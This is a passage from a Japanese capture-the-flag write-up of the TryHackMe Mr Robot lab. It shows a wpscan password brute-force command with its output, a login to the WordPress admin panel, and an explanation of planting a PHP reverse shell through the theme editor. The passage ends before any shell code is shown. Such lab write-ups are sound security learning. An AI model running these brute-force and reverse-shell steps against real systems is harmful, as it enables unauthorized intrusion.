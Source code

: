 パスワードについてもブルートフォース攻撃で調べられそうです。今回はこのサイトが WordPress のものとわかっているので、これに特化した `wpscan` というツールを使います。

```console
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ wpscan --url http://10.10.203.195 -U Elliot -P fsocity_uniq.dic -t 32
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
(中略)

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                                 
All Found                                                                                                                      
Progress Time: 00:00:49 <=====================================                                > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

パスワードが分かりました。得られた認証情報でログインしてみます。

<img src="/images/2024/20241030a/MrRobotCTF_Elliot_Login.png" alt="MrRobotCTF_Elliot_Login.png" width="1200" height="621" loading="lazy">

ログインに成功しました！まずは WordPress のサイトへの侵入成功です。画面で触れる箇所が多く、調べたら色々と情報や脆弱性が出てきそうです。今回ログインしたユーザは Elliot Alderson さんという方のようです。メールアドレスや顔写真などの個人情報も出てきました。怖いですねぇ。

次は更に内部に入りこむべく、この WordPress サーバ（OS側）への侵入を試みます。WordPress 上を探索してみると、`Appearance > Editor` に php のコードが色々とあり、編集ができることに気が付きます。リバースシェルを仕込んで実行させることで、シェルを取得できそうです。

<img src="/images/2024/20241030a/MrRobotCTF_editor.png" alt="MrRobotCTF_editor.png" width="1200" height="625" loading="lazy">

<div class="note info" style="background: #e5f8e2; padding:16px; margin:24px 12px; border-radius:8px;"><span class="fa fa-fw fa-check-circle"></span>

**リバースシェル**は、ターゲットから自分のローカルマシンに向けた接続を行う仕組みです。サーバは基本的に外部から内部への通信は厳しく制限しますが、内部から外部への通信は比較的ゆるい場合が多いです。
そこで、ローカルマシンではあるポート（今回は`12345`） で接続を Listen しておきます。ターゲットマシンに侵入後、リバースシェルのプログラムにこのIP・ポートへ接続する設定をして、このプログラムが実行されるように仕込みます。プログラムが実行されると、ローカルマシンへの接続が発生して、ターゲットマシンのシェルを取得できます。

</div>

Kali にもともとある php のリバースシェルのスクリプトをコピーしてきます（ちなみに私は php のコードは読めません...）
